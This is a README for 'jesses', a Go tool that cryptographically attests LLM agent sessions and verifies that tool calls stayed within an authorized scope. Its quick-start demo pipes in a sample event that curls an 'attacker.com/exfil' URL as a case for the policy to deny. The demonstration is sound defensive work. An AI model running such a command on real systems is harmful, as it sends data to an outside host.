




# jesses

[](https://github.com/Hybirdss/jesses/actions/workflows/ci.yml)
[](./LICENSE)
[](https://pkg.go.dev/github.com/Hybirdss/jesses)

Cryptographic attestation for autonomous LLM agent sessions. When an agent produces a bug-bounty report, a pentest finding, or a B2B compliance run, `jesses` emits a tamper-evident `.jes` file alongside the deliverable. A triage analyst verifies it in one command and knows — mathematically — that the agent stayed inside an authorized action envelope.



## Quick start

```bash
git clone https://github.com/Hybirdss/jesses && cd jesses
go build -o jesses ./cmd/jesses/

./jesses init-scope
cat <<'EOF' | ./jesses hook --fake-rekor
{"tool":"bash","input":{"command":"curl https://api.target.com/users"}}
{"tool":"bash","input":{"command":"curl https://attacker.com/exfil"}}
{"_action":"close"}
EOF

./jesses verify --offline session.jes
./jesses view    session.jes
```

Or run the full 7-event demo in [`examples/demo-bounty/reproduce.sh`](./examples/demo-bounty/reproduce.sh).

## What it does

Sample verdict on a session with eight tool-use events, three of them denied at hook time:



`jesses stats` is the same session as a compact dashboard with deny-flagged hosts highlighted:



`jesses show <file.jes>` pretty-prints the envelope's predicate without running verification — useful for quick scans and for embedding in PR descriptions:



All three outputs are real screenshots from [`examples/demo-bounty/reproduce.sh`](./examples/demo-bounty/reproduce.sh). Regenerate them with `LC_ALL=C script -qc "./jesses <subcommand> …" out.ansi` piped through [`ansi2svg.py`](./examples/demo-bounty/screenshots/ansi2svg.py).

Seven gates, each mapped to a specific threat ([`THREAT_MODEL.md`](./THREAT_MODEL.md)):

| Gate | Defends |
|---|---|
| G1 envelope signature | key substitution |
| G2 merkle root | log edit / truncation / selective deletion |
| G3 rekor pre-commit | session fabrication / back-dating |
| G4 scope hash | policy swap |
| G5 policy compliance | run-time scope violations |
| G6 OTS anchor (advisory) | external time-pinning beyond Rekor |
| G7 deliverable provenance | pre-session data injection into reports |

## Two independent implementations

```bash
$ cd verifier-js && node test.mjs
  ✓  happy-path     ✓  policy-breach     ✓  tampered-log
3/3 vectors conform to Go reference implementation
```

- Go reference: `internal/verify`
- JavaScript: `verifier-js/` — zero dependencies, Node 20+ built-ins only
- Spec corpus: [`spec/test-vectors/v0.1/`](./spec/test-vectors/) — both verifiers must produce byte-identical `Report` JSON. See [`verifier-js/README.md`](./verifier-js/README.md) for a porting guide if you'd like to add a third implementation.

## Subcommands

```
jesses verify <file.jes>                    6-gate verification (7 if --report)
jesses view [--follow] [--report md] <f>    local HTTP viewer, 60s TTL
jesses run -- <cmd> [args]                  wrap a child process, auto-finalize
jesses hook                                 stdin-driven agent harness hook
jesses stats <file.jes>                     hygiene dashboard
jesses cite <seq>                           emit a footnote def for one event
jesses report --bind <md> <f>               bind a report to the envelope (G7)
jesses init-scope                           write a scope.txt template
jesses version
```

## Process-bound wrapping

`jesses run -- <cmd> [args]` launches `<cmd>` as a child under jesses' own process. Two synthetic events bound the attestation's time claim to `[wrap_start, wrap_end]`; child stdout/stderr are teed to `session.stdout.log` and `session.stderr.log` alongside the audit log. The envelope says what it claims and nothing else.

## Deliverable provenance (G7)

Reports can carry footnote citations binding each claim to a specific audit-log event:

```markdown
The endpoint returned user 42's PII despite the token being for user 10 [^ev:3].

[^ev:3]: event #3 @ 2026-04-16T12:05:22Z — `bash: curl https://api.target.com/v1/users/42` — sha256 `7a3f5c89…`
```

`jesses report --bind report.md session.jes` hashes the file into the envelope and validates citations. `jesses verify --report report.md session.jes` re-checks everything end-to-end. Uncited factual lines are flagged per `--bare-policy=allow|warn|strict`.

## Architecture

```
agent harness (Claude Code / Cursor / Cline / custom)
       │  tool-use event JSON (line-delimited, stdin)
       ▼
┌────────────────────────────────────────────────────────────┐
│ jesses hook / jesses run                                    │
│                                                             │
│   dispatch → per-tool extractor → []Destination             │
│       ↓                                                     │
│   policy.Evaluate → Decision (allow/warn/deny)              │
│       ↓                                                     │
│   audit.Append → canonical JSON → Merkle leaf               │
│                                                             │
│   at session_start: precommit.Submit(Rekor)                 │
│   at session_end:   attest.Build(envelope) + ots.Submit     │
└────────────────────────────────────────────────────────────┘
       │ session.jes (in-toto ITE-6 + ed25519 signature)
       ▼
verifier — Go or JavaScript (same 7 gates, same Report)
```

Full layout: [`ARCHITECTURE.md`](./ARCHITECTURE.md). Architecture decisions: [`docs/adr/`](./docs/adr/).

## Install

Build from source (Go 1.22+):

```bash
go install github.com/Hybirdss/jesses/cmd/jesses@latest
```

Release binaries (signed via cosign keyless, Fulcio + Rekor, SLSA Build L3 provenance, SBOM) are published on the [releases page](https://github.com/Hybirdss/jesses/releases).

## Integrations

| Harness | How |
|---|---|
| Claude Code | stdin hook mode |
| Cursor / Cline | same stdin shape |
| Custom Go harness | embed [`pkg/jesses`](./pkg/jesses) — stable API |
| GitHub Actions / CI | `jesses verify --json --offline session.jes` |

## Repository map

```
cmd/jesses/              the CLI + embedded HTML viewer
internal/
  audit/                 append-only canonical log writer
  merkle/                RFC 6962 byte-exact with Certificate Transparency
  policy/                scope.txt parser + 5-namespace matcher
  shellparse/            tokenizer + segment splitter
  extractors/            per-tool destination extractors (bash, path, web, mcp)
  session/               Open/Append/Close lifecycle
  precommit/             SCT-analog session-start commitment
  rekor/                 transparency-log client
  ots/                   OpenTimestamps calendar client
  attest/                in-toto ITE-6 envelope
  provenance/            deliverable-to-log binding (G7)
  verify/                six/seven-gate verifier
pkg/jesses/              public Go API for embedders
verifier-js/             JavaScript second implementation
spec/test-vectors/v0.1/  cross-implementation conformance corpus
examples/demo-bounty/    reproducible end-to-end demo
docs/adr/                architecture decision records
```

## Numbers

- **218 Go tests + 3 JavaScript conformance vectors**
- **Zero external dependencies** in every production package
- **Hook-path latency**: 3 μs simple, 15 μs adversarial, 133 μs for 100-segment pipelines
- **Fuzz**: 1.2 M executions at 170 k/s over 10 s, zero panics

## License

MIT. See [`LICENSE`](./LICENSE).

## Contributing

See [`CONTRIBUTING.md`](./CONTRIBUTING.md). DCO sign-off is required on pull requests. For security issues, see [`SECURITY.md`](./SECURITY.md).
